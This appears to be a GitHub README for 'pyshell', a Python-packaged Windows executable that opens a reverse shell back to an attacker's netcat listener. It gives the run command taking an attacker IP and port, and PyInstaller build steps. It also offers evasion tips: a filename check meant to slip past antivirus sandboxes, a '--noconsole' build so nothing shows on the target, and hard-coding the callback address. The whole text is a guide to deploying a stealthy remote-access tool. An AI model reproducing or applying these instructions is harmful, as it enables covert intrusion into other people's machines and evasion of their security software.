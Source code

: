 # Overview
A simple binary to get reverse shells on Windows machines. Like netcat but unknown for now by "next-gen" AV (lol).

Simply execute the exe on the target box with two arguments as follows. First, set up a nc listener on your machine.
```
pyshell.exe <ip address> <port>
```

NOTE: There is a line in the code to look for the specific binary name as sys.argv(0). This is in hopes of avoiding some AV sandboxes. If you renamed the binary without building your own, it probably won't work.

# Building a new exe
You'll need to use a Windows host to generate the exe after modifying the Python source.

**Requirements**
- Python 3.x
- pyinstaller installed using `pip install pyinstaller`

**Building the exe**<br>
Run pyinstaller like the following to package the required DLLs:
```
pyinstaller -F pyshell.py
```
This should create a `dist` folder in your current directory with the new executable.

You can add the '--noconsole' swich when building to not display a console on the target. You can also hard-code the IP and Port into the Python script before building if you'd like a version that requires no arguments. Don't forget to get rid of argparse completely if you do so.

# Shout out
This thread: https://stackoverflow.com/questions/37991717/python-windows-reverse-shell-one-liner
